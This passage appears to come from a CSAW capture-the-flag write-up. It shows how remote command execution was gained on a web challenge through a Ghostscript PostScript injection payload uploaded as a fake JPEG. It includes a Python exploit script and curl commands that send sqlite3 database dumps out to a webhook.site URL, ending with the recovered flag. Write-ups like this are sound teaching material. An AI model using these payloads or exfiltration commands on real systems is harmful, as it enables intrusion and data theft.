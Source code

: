 Since we have RCE and `sqlite3` at hand we just need to exfiltrate the information,
this part took the longest because I didn't realize straight away the output would be cut in whitespace.
I am also pretty sure I could reverse shell the challenge since we had a VPN but oh well...

I wrote a submission script:

```python
#!/usr/bin/env python3

import requests

url = "http://web.chal.csaw.io:5000/"
headers = {
    "Host": "web.chal.csaw.io:5000",
    "User-Agent": "Mozilla/5.0 (X11; Linux x86_64; rv:78.0) Gecko/20100101 Firefox/78.0",
}

while True:
    cmd = input("> ")
    f = """%!PS-Adobe-3.0 EPSF-3.0
%%BoundingBox: -0 -0 100 100

userdict /setpagedevice undef
save
legal
{ null restore } stopped { pop } if
{ legal } stopped { pop } if
restore
mark /OutputFile (%pipe%{}) currentdevice putdeviceprops
    """.format(cmd)
resp = requests.post(url, headers=headers, files={"image": ("exploit.jpg", f)})
print(resp.status_code)
```

After running the command:

```
curl https://webhook.site/15a28193-cf70-44b8-b993-d72f0c5bb844 -d $(sqlite3 /home/picgram/flag.db '.tables' | tr -s ' ' ':' | tr -s '\n' '-' | tr -s '\t' ':')
```

We find a single table - `projects`.
Now we dump the table, and then filter it with `tr`, reversing the "concatenation".

```
curl https://webhook.site/15a28193-cf70-44b8-b993-d72f0c5bb844 -d $(sqlite3 /home/picgram/flag.db 'select * from projects' | tr -s ' ' ':' | tr -s '\n' '-' | tr -s '\t' ':')
```

Searching through the dump we find the flag:

```
77|iS thIs ThE flAg??|b'flag{th4t_w4s_s0m3_sp00ky_scr1pt1ng}\n'
```

### Shark Facts
